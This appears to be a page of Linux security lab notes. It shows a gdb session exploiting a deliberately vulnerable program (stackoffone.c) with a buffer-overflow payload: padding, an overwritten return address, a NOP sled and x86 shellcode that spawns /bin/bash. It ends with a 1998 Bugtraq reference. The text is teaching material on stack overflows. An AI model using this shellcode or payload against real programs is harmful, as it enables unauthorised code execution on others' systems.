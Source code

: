 ```
Starting program: /home/simba/Documents/LinuxSec/vuln `python -c 'print "A"*60+ "\x08\xf4\xff\xbf" +  "\x90" * 147 + "\x31\xc0\x83\xec\x01\x88\x04\x24\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x83\xec\x01\xc6\x04\x24\x2f\x89\xe6\x50\x56\xb0\x0b\x89\xf3\x89\xe1\x31\xd2\xcd\x80\xb0\x01\x31\xdb\xcd\x80"'`

Breakpoint 1, bar (
    arg=0xbffff6ef 'A' <repeats 60 times>, "\b\364\377\277\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...) at stackoffone.c:8
8	void bar(char* arg) {
(gdb) finish
Run till exit from #0  bar (
    arg=0xbffff6ef 'A' <repeats 60 times>, "\b\364\377\277\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...) at stackoffone.c:8
process 24214 is executing new program: /bin/bash
```

## 参考文章 

http://seclists.org/bugtraq/1998/Oct/109